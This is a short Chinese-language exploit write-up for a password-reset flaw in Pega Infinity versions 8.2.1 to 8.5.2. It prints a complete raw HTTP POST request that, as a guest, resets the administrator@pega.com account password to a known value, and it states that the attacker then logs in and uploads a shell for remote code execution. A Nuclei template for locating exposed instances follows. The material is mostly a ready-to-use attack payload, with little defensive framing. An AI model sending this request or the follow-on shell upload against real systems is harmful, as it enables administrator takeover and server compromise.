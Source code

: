 影響版本
--------

    Pega Infinity > = 8.2.1
    Pega Infinity <= 8.5.2

漏洞利用
--------

1.訪問任何實例登錄頁面，使用"administrator@pega.com"進行重置密碼進行登錄,PoC如下，重置密碼為：Rules@1234進行登錄後上傳shell進行rce。

    POST /prweb/PRServlet/app/default/:PEGA_ID*/!STANDARD HTTP/1.1 (:PEGA_ID is a unique ID for each site, it is in this format: ZOgwf2Zk3OsEg_oG74MXXxG2bXKbv56W)
    Host: redacted.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 112
    Origin: https://redacted.com
    DNT: 1
    Connection: close
    Referer: https://redacted.com/prweb/PRServlet/app/default/:PEGA_ID*/!STANDARD
    Cookie: yourCookie
    Upgrade-Insecure-Requests: 1

    pzAuth=guest&NewPassword=Rules%401234&ConfPassword=Rules%401234&pyActivity%3DCode-Security.pzChangeUserPassword=

Nuclei Template：

    id: pega

    info:
      name: Pega Infinity Login
      author: sshell
      severity: low

    requests:
      - method: GET
        path:
          - "{{BaseURL}}/prweb/PRRestService/unauthenticatedAPI/v1/docs"
        headers:
          User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55
        matchers:
          - type: word
            words:
              - "Pega API"